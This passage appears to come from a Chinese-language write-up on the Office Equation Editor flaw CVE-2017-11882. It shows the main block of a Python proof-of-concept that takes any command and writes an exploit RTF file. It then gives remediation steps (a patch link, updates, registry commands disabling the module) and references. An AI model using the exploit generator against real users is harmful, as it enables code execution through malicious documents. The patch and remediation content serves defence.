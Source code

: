 ```python

def getrheader(file):
    input_file = open(file,"r").read()
    r_header = input_file.split("{\*\datastore")[0]
    return r_header

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description="PoC for CVE-2017-11882")
    parser.add_argument("-c", "--command", help="Command to execute.", required=True)
    parser.add_argument('-o', "--output", help="Output exploit rtf", required=True)
    parser.add_argument("-i", "--input", help="Input normal rtf.", required=False)

    args = parser.parse_args()
    if args.input != None:
        r_header = getrheader(args.input)
    else:
        r_header = RTF_HEADER

    rtf_content = create_rtf(r_header, args.command ,RTF_TRAILER)
    
    output_file = open(args.output, "w")
    output_file.write(rtf_content)

    print "[*] Done ! output file --> " + args.output 
```

## 漏洞修复

开发者：在strcpy（）函数之前，校验待拷贝长度是否在合法区间内阻止溢出即可。

用户只需：

1. 下载补丁：https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882
2. 将windows更新到最新版本
3. 在注册表中取消该模块的注册，打开cmd.exe，输入以下两条命令：

```
reg add “HKLM\SOFTWARE\Microsoft\Office\Common\COM Compatibility\{0002CE02-0000-0000-C000-000000000046} ” /v “Compatibility Flags” /t REG_DWORD /d 0x400
reg add “HKLM\SOFTWARE\Wow6432Node\Microsoft\Office\Common\COM Compatibility\{0002CE02-0000-0000-C000-000000000046} ” /v “Compatibility Flags” /t REG_DWORD /d 0x400
```



## 参考链接

https://docs.microsoft.com/en-us/previous-versions/visualstudio/visual-studio-2010/a329t4ed(v=vs.100)?redirectedfrom=MSDN

https://www.freebuf.com/column/183551.html

https://xz.aliyun.com/t/6668

https://www.anquanke.com/member/117972

https://blog.csdn.net/qq_38474570/article/details/98513146

https://bbs.pediy.com/thread-258371.htm

http://rtf2latex2e.sourceforge.net/MTEF3.html

